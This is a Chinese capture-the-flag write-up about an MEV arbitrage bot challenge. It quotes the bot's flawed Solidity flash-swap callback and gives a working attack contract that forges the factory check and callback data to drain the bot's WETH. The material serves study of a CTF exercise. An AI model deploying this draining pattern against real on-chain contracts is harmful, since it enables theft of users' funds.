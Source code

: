这个题大概做了个 MEV Bot，就是中间商赚差价的。它在一个叫 Uniswap 的去中心化交易所里面去找货币转换时能赚的差价，WETH -> TOKEN -> WETH，然后就去套。

Flag1 比较简单。这个 bot 在转换货币时用到了 Uniswap 的 [Flash Swaps](https://docs.uniswap.org/contracts/v2/guides/smart-contract-integration/using-flash-swaps)，相当于注册了一个回调函数，在这个回调函数里面真正地把钱转给 Uniswap 的 Pair。但他这个检查：

```solidity
function uniswapV2Call(address sender, uint, uint, bytes calldata data) external {
    require(IUniswapV2Pair(msg.sender).factory() == FACTORY1 || IUniswapV2Pair(msg.sender).factory() == FACTORY2, "wrong factory");
    require(sender == address(this), "wrong sender");
    (IUniswapV2Pair pair1, IUniswapV2Pair pair2, uint amount1, uint amount2, bool dir) = abi.decode(data, (IUniswapV2Pair, IUniswapV2Pair, uint, uint, bool));
    require(WETH.transfer(address(pair1), amount1));
    pair1.swap(dir ? amount2 : 0, dir ? 0 : amount2, address(pair2), '');
}
```

显然是个人都能绕过去。我们部署一个恶意合约，提供一个合法的 `factory` 接口，然后就可以任意伪造 `data` 让 bot 向我们赚钱，把 bot 掏空从而拿到 flag。

此外一个 caveat 是这个 bot 在转账过程中还会套利，也就是说我们没办法一次性把它掏空。但它一次会比一次套得少，我们掏三次即可。

由于我以前没写过 web3 代码，写出来的东西也是拼拼凑凑，显然不会是 best practice，大伙看个乐就行。

```solidity
pragma solidity =0.8.21;

interface Bot {
    function uniswapV2Call(
        address sender,
        uint,
        uint,
        bytes calldata data
    ) external;
}

contract Custom {
    address payable immutable owner = payable(msg.sender);

    address public factory;

    constructor(address _factory) {
        factory = _factory;
    }

    function attack(Bot bot, address pair1, uint amount) external {
        bot.uniswapV2Call(
            address(bot),
            0,
            0,
            abi.encode(pair1, owner, amount, 1, true)
        );
    }

    function receive(Bot bot) external {}
}
```
